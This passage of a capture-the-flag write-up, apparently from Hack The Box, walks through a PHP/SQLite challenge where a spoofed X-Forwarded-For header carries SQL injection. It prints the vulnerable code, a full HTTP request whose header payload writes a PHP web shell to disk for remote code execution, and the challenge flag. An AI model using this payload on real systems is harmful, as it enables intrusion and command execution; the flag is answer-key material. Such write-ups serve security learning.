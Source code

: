 In the `subscribeUser` function, PHP will execute the SQL without sanitizing our input.

And also we could see in this piece of code `challenge/models/SubscriberModel.php#L10:L19`

```php
public function getSubscriberIP(){
    if (array_key_exists('HTTP_X_FORWARDED_FOR', $_SERVER)){
        return  $_SERVER["HTTP_X_FORWARDED_FOR"];
    }else if (array_key_exists('REMOTE_ADDR', $_SERVER)) {
        return $_SERVER["REMOTE_ADDR"];
    }else if (array_key_exists('HTTP_CLIENT_IP', $_SERVER)) {
        return $_SERVER["HTTP_CLIENT_IP"];
    }
    return '';
}
```
At the `getSubscriberIP` function, its attempts to get the client IP, We could spoof this using `X-Forwarded-For` since its prioritizes `HTTP_X_FORWARDED_FOR` first.

In the `SQLite` DBMS,  `SQL Injection` could escalated into Remote Code Execution.

```
POST /subscribe HTTP/1.1
Host: 178.62.73.26:30911
Content-Length: 24
Cache-Control: max-age=0
Origin: http://178.62.73.26:30911
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://178.62.73.26:30911/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,id;q=0.8
Connection: close
X-Forwarded-For: ','');ATTACH DATABASE '/www/x.php' AS lol;CREATE TABLE lol.pwn (dataz text);INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--

email=nyx%40nymare.world
```

![](intergalactic-3.png)

**HTB{inj3ct3d_th3_tru7h}**

### Mutation Lab (300 points)

The value of this challenge is 300 points & +300 players have solved this challenge.

![](mutation-1.png)
